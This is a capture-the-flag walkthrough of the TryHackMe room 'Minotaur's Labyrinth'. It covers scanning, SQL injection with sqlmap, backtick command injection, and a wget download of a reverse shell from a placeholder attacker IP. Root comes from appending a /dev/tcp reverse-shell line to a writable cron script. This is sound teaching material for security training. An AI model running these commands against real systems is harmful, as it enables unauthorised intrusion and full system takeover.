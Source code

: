 #  [Minotaur's Labyrinth (TryHackMe)](https://tryhackme.com/room/labyrinth8llv)
Creators: [xenox](https://tryhackme.com/p/xenox) & [spayc](https://tryhackme.com/p/spayc)

First an initial scan with rustscan:


<code>rustscan -a 10.10.139.83 --ulimit 5000</code>  


![PICTURE_RUSTSCAN](https://user-images.githubusercontent.com/93183445/140650388-04ab3337-b42c-4bd8-a1ab-cd0daca6c247.png)


After that, let's throw nmap at it:

<code>nmap -sV -sC 10.10.139.83</code>  

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/140650415-24920e15-df4b-4513-9f75-8589d4ab716f.png)

Let's see what the fuzz is all about:

<code>ffuf -u http://10.10.139.83/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</code>  

While ffuf is doing its thing, I'll take a look at the ftp which allows anonymous login..
In the ftp directories is some rather interesting stuff, it looks like:

![PIC_FTP1](https://user-images.githubusercontent.com/93183445/140650439-3f17a701-b07c-4d76-aa5b-7c7bcc692865.png)

message.txt:  
<code>Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur</code>

Let's explore further :)

![PIC_FTP2](https://user-images.githubusercontent.com/93183445/140650455-e0da12ec-90bd-451b-978c-88a7b2a8506e.png)

Aaaand I got the fist flag!!!

keep_in_mind.txt (this info will come in handy a bit later):  
<code>Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur</code>

While ffuf is still running, I'm going to take a look at the website:

![PIC_WEB1](https://user-images.githubusercontent.com/93183445/140650473-eaeb3905-efe9-4ea6-928d-c58b19b691a5.png)

No matter what I typed in, there seems to happen no response what so ever. Let's take a look at the source:  
(The hyperlinks are not what they seem, but go for it, if you feel adventurous, lol)

The source code reveals:

![PIC_WEB2](https://user-images.githubusercontent.com/93183445/140650530-b1c3ac5c-9e94-4b87-9bb4-ded0ae887ac5.png)

A look at "view-source:http://10.10.139.83/js/login.js" also reveals nothing of value..

In the meantime ffuf managed to finish:

![PIC_FUFF](https://user-images.githubusercontent.com/93183445/140650575-eccbffef-c76e-44a0-9854-bb71b9747314.png)

Going through the directories, I can find something interesting in the logs directory.
It looks like a captured Burp request which reveals credentials.

---------------------------------------------------------------------------------

POST /minotaur/minotaur-box/login.php HTTP/1.1\
Host: 127.0.0.1\
Content-Length: 36\
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"\
Accept: */*\
Content-Type: application/x-www-form-urlencoded; charset=UTF-8\
X-Requested-With: XMLHttpRequest\
sec-ch-ua-mobile: ?0\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36\
sec-ch-ua-platform: "Windows"\
Origin: http://127.0.0.1\
Sec-Fetch-Site: same-origin\
Sec-Fetch-Mode: cors\
Sec-Fetch-Dest: empty\
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html\
Accept-Encoding: gzip, deflate\
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7\
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv\
Connection: close\

email=hidden&password=hidden


---------------------------------------------------------------------------------

Because I got no response from the login, I turned to the ftp with these very creds, but this trip led to nowhere..
Out of pure desperateness, I tried the login page again, and got in :) 

![PIC_LANDING1](https://user-images.githubusercontent.com/93183445/140650895-ae7fdda0-ca6d-4505-86ac-e9750e928900.png)

So far I've got two names: 'Daedalus' and 'Minotaur'.  
Plus I can appearantly search for 'People' and 'Creatures'.  
Let's do that...

![PIC_LANDING2](https://user-images.githubusercontent.com/93183445/140650903-8dd321a7-1c95-4fd7-b6dd-b90e9cea2d5e.png)

Seems to be some kind of database thingy.. Let's catch the request with Burp and let sqlmap deal with the heavy load.

<code>sqlmap -r req_master.txt --dbs --batch --time-sec=3</code>

Aaaaand there's a hit:

![PIC_SQLMAP1](https://user-images.githubusercontent.com/93183445/140650920-fe7f8b49-d593-4ee4-a906-6c0cce29b8f4.png)

Dump it:

![PIC_SQLMAP2](https://user-images.githubusercontent.com/93183445/140650926-7ff4ef49-4982-45f4-aed7-72e35b7cf2e0.png)

![PIC_SQLMAP3](https://user-images.githubusercontent.com/93183445/140650932-0d1a0c5a-21c6-4d44-993f-846400eff686.png)

As the newly found user with admin rights is in the same table as Daedalus, with whom I was able to login  
before, let's find out if we get in with these creds, after a short trip to Crackstation..  
(https://crackstation.net)

After the successful login, the flag is in the upper left corner of the site. Besides that, there is a
hyperlink "Secret_Stuff".  
That sounds interesting enough to follow that. Who could resist that..?

![PIC_LANDING3](https://user-images.githubusercontent.com/93183445/140650947-46ec7a1c-6559-4a86-ab0c-370d925017fe.png)

The link leads to the "secret echo panel". There we can input stuff and it gets reflected on the page. Twice.  
No matter what I was trying in regards to command injection, it didn't get me command execution.  
This site led me finally to using backticks, instead of quotation marks.  
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

\`ls\` shows us:

![PIC_RCE1](https://user-images.githubusercontent.com/93183445/140650956-67398bff-8298-49e7-920f-57642485ca02.png)

So say hello to rce and explore that. And there's flag3 in the user home directory, which is also readable.  

Let's try \`cat /home/user\`

![PIC_RCE2](https://user-images.githubusercontent.com/93183445/140650965-b12da9b1-b7f2-4923-9fc0-c2333e4a7158.png)

Okidoky.. Let's get a shell then. I had to try a few things and ended up with:

\`/usr/bin/wget YOUR-IP/rev.txt -O /tmp/rev.sh\`

Content of rev.txt ([https://www.revshells.com](https://www.revshells.com)):
  
![PIC_REV1](https://user-images.githubusercontent.com/93183445/140651318-d67dd2b4-6a44-4e16-abaf-c89fec962ac7.png)

Set up a local server to serve the shell:  
  
<code>python3 -m http.server 80</code>  
  
Then set up a listener  
  
<code>nc -lnvp 9001</code>
  
and execute the freshly downloaded reverse shell on the target:  
  
\`bash /tmp/rev.sh\`

![PIC_REV2](https://user-images.githubusercontent.com/93183445/140651333-9964013c-007a-45ff-b3f1-e1d662fa0927.png)

After running linpeas.sh and searching around for a bit, I got a tip. Remember the content of one of the files we  
found in the ftp earlier. Where a timer is mentioned? 
There's a file in the root directory that we can write to.  
Plus, it is owned by root.. So let's abuse that and pack a rev-shell in that very file :)

![PIC_REV3](https://user-images.githubusercontent.com/93183445/140651338-c8f5a0cf-5939-4dac-ab46-d50150fe698f.png)
  
<code>echo 'sh -i >& /dev/tcp/YOUR-IP/6666 0>&1' >> timer.sh</code>  

Start another listener and it will connect without any further doing. Now I'm root _tataaaa_ \
So let's go and get the final flag in the /root directory:

![PIC_FINAL](https://user-images.githubusercontent.com/93183445/140651348-8391acb8-eb86-438f-9e62-20d61c21fa4f.png)

DONE :)










































